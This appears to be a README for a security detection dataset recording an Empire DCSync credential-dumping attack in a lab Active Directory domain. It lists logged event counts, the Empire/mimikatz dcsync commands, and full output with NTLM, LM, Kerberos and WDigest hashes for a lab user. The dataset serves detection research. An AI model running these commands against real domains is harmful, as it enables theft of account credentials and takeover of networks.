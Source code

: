 
# Empire DCSync

An adversary with replication permissions (default in Domain Admins) can use the active directory replication apis to pull the NTLM hash of any user in the network.

## Technique(s) ID

T1003

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## Dataset

[empire_dcsync.tar.gz](./empire_dcsync.tar.gz)

## Network Environment

Shire

## Time Taken

2019-03-01174830

## About this file

| log_name                                 | task                                                   |   events_count  |
|------------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                       | Pipeline Execution Details                             |            2249 |
| Windows PowerShell                       | Provider Lifecycle                                     |               8 |
| Windows PowerShell                       | Engine Lifecycle                                       |               1 |
| System                                   | Service State Event                                    |               9 |
| Security                                 | User Account Management                                |             160 |
| Security                                 | Filtering Platform Connection                          |             139 |
| Security                                 | Token Right Adjusted Events                            |             109 |
| Security                                 | Group Membership                                       |               6 |
| Security                                 | Logoff                                                 |               6 |
| Security                                 | Logon                                                  |               6 |
| Security                                 | Process Termination                                    |               4 |
| Security                                 | Special Logon                                          |               4 |
| Security                                 | Directory Service Access                               |               3 |
| Security                                 | File Share                                             |               3 |
| Security                                 | Other Object Access Events                             |               2 |
| Security                                 | Detailed File Share                                    |               1 |
| Microsoft-Windows-Sysmon/Operational     | Process accessed (rule: ProcessAccess)                 |             171 |
| Microsoft-Windows-Sysmon/Operational     | Image loaded (rule: ImageLoad)                         |              88 |
| Microsoft-Windows-Sysmon/Operational     | Network connection detected (rule: NetworkConnect)     |              60 |
| Microsoft-Windows-Sysmon/Operational     | Registry object added or deleted (rule: RegistryEvent) |              39 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Connected (rule: PipeEvent)                       |              20 |
| Microsoft-Windows-Sysmon/Operational     | File created (rule: FileCreate)                        |               9 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Created (rule: PipeEvent)                         |               2 |
| Microsoft-Windows-Sysmon/Operational     | Process Create (rule: ProcessCreate)                   |               2 |
| Microsoft-Windows-Sysmon/Operational     | RawAccessRead detected (rule: RawAccessRead)           |               2 |
| Microsoft-Windows-PowerShell/Operational | Executing Pipeline                                     |            2325 |

## Empire Activity

```
usemodule credentials/mimikatz/dcsync
set domain shire.com
set user pgustavo
set dc HFDC01.shire.com
execute
```

```
  .#####.   mimikatz 2.1.1 (x64) #17763 Feb 23 2019 12:03:02
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # lsadump::dcsync /user:pgustavo /domain:shire.com /dc:HFDC01.shire.com
[DC] 'shire.com' will be the domain
[DC] 'HFDC01.shire.com' will be the DC server
[DC] 'pgustavo' will be the user account

Object RDN           : Pedro Gustavo

** SAM ACCOUNT **

SAM Username         : pgustavo
User Principal Name  : pgustavo@shire.com
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   : 
Password last change : 1/14/2019 12:20:18 PM
Object Security ID   : S-1-5-21-2511471446-1103646877-3980648787-1107
Object Relative ID   : 1107

Credentials:
  Hash NTLM: 8ece039f32592670b45fc801e2a9157d
    ntlm- 0: 8ece039f32592670b45fc801e2a9157d
    lm  - 0: 15e09e2518ec09060eb8d5e3edca688b

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 2a41aad084dd4b0f85542de96ec0d713

* Primary:Kerberos-Newer-Keys *
    Default Salt : SHIRE.COMpgustavo
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : e9090c842bd528e456efc9912d417e0fba163d185cf11e803a75299c112ccf71
      aes128_hmac       (4096) : a45b256dcf19e05e7be415c8f8b74df3
      des_cbc_md5       (4096) : 40c4aef2ad988352

* Primary:Kerberos *
    Default Salt : SHIRE.COMpgustavo
    Credentials
      des_cbc_md5       : 40c4aef2ad988352

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  581eb1df6c6053b76a28a0dce36a8d6f
    02  7527b4ed5fdb8d86b3aae51bfa369d09
    03  1afb1ea2a11dacbaa9a7de3cdba90d2e
    04  581eb1df6c6053b76a28a0dce36a8d6f
    05  7527b4ed5fdb8d86b3aae51bfa369d09
    06  71ae329e68bc24b2c4aa77275ddbb153
    07  581eb1df6c6053b76a28a0dce36a8d6f
    08  beb04fe3623809f7bacf7e37109d4d21
    09  beb04fe3623809f7bacf7e37109d4d21
    10  dcbadc06749ae53ff0a5b12fea3117ca
    11  b4fba84ff02a3bf713d6de143ed08a04
    12  beb04fe3623809f7bacf7e37109d4d21
    13  f70d458543eeb1491b108783723d5250
    14  b4fba84ff02a3bf713d6de143ed08a04
    15  eb84c71ed69b32bc4def1ad8a50a3fec
    16  eb84c71ed69b32bc4def1ad8a50a3fec
    17  58e1d74ac34fc6fcc20d947e4bf5e3a9
    18  73eb0629757be77aa4a5a9c1a782658a
    19  60f5c9eefaacae631e229fd15f70ad92
    20  df090cdf058cdbda7bc78a57d2241a9a
    21  286470c2e82b1e8316b1a5198b9c72ec
    22  286470c2e82b1e8316b1a5198b9c72ec
    23  689bbadaae7f867861432adf3e385396
    24  91ff8d6376c52d90415254b0444b497b
    25  91ff8d6376c52d90415254b0444b497b
    26  bc4e42e3164f8e5d01f1b92fc75370ee
    27  535147dcae01ac8505ce306cdcbdfb97
    28  1aa7a460e6e4b2a1431c819b26626241
    29  6348ec8df577d8d1eb401cc5e29ee763
```